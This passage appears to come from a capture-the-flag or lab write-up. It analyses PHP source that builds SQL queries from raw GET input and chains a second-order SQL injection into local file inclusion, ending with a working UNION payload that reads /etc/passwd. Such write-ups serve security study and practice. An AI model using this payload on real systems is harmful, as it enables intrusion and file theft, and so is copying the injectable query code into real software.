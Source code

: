 This SQLi can be automated with SQL map to extract further data, but it defaults to a timing based attack and is slow. Further enumeration revealed that database contents were not useful at this time. 

### 2nd Order SQL Injection to Local File Inclusion 

Going back to the source code of `index.php`, we observe how a page name is returned from a given id in `getTplFromID`:
```
function getTplFromID($conn) {
	global $debug;
	$valid_ids = array (25,465,587);
	if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
			$sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
	} else {
		$sql = "SELECT name FROM idname where id = '25'";
	}
	if ($debug) { echo "sqltpl: $sql<br>\n"; } 
	
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
	while($row = $result->fetch_assoc()) {
		$ret = $row['name'];
	}
	} else {
		$ret = 'main';
	}
	if ($debug) { echo "rettpl: $ret<br>\n"; }
	return $ret;
}

```
`getPathFromTpl` is then called with the previously returned name aka `tpl`, a sign of a potential 2nd order SQL injection:
```
function getPathFromTpl($conn,$tpl) {
	global $debug;
	$sql = "SELECT path from filepath where name = '".$tpl."'";
	if ($debug) { echo "sqlpath: $sql<br>\n"; }
	$result = $conn->query($sql);
	if ($result->num_rows > 0) {
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}
```
The `$inc` return value from `getPathFromTpl` is then included within `index.php`. If we can trick the 1st SQL injection into outputting another injection query into the 2nd call, it may be possible to cause an arbitrary file to be included in this line:
```
<?php
include("$inc");
?>
```
After significant time manually fuzzing payloads, the following was found to yield results `' UNION SELECT "main' UNION SELECT '/etc/passwd';-- ";--`
